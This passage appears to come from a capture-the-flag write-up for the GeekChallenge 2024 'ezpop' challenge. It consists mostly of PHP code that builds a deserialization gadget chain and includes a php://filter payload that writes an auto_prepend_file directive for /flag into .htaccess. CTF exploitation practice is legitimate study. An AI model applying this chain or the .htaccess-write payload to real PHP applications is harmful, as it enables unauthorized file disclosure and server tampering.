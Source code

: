 ![](./images/image-42.png)

## ezpop

```
<?php
Class lover{
    public $J1rry="data://text/plain,Welcome GeekChallenge 2024";
    public $meimeng=12312313;
    public function __destruct(){
        if(isset($this->J1rry)&&file_get_contents($this->J1rry)=='Welcome GeekChallenge 2024'){

            $this->meimeng->source;
        }
    }

    public function __invoke()
    {
        echo $this->meimeng;
    }

}

Class Geek{
    public $GSBP;
    public function __get($name){
        $Challenge = $this->GSBP;

        return $Challenge();
    }

    public function __toString(){
        $this->GSBP->Getflag();
        return "";
    }

}
Class SYC{
    public  $starven="php://filter/write=string.strip_tags/?>php_value auto_prepend_file /flag\n#/resource=.htaccess" ;
}

$lover1 = new lover();
$lover2 = new lover();
$syc=new SYC();
$geek1=new Geek();
$geek1->GSBP=$lover2;

$geek2=new Geek();
$lover1->meimeng=$geek1;
$lover2->meimeng=$geek2;

$geek2->GSBP=$syc;
```